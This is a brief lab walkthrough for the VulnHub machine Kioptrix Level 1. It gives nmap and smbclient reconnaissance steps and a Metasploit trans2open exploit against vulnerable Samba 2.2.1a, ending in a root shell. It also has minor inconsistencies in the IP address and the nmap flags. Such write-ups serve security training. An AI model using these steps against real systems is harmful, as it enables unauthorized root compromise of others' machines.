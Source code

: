 
# Kioptrix Level 1 Walkthrough

**VulnHub Link:** [Kioptrix Level 1](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/)  
**Difficulty:** Easy  
**Release Date:** November 18, 2010 

---

## 1. Reconnaissance

### Nmap Scan

nmap -sV -P -A -T4 -O 192.168.56.10


## 2. Enumeration

smbclient -L //192.168.56.101
Found Samba version 2.2.1a (vulnerable).

## 3. Exploitation

msfconsole
use exploit/linux/samba/trans2open
set RHOSTS 192.168.56.101
exploit
Successful shell as root.

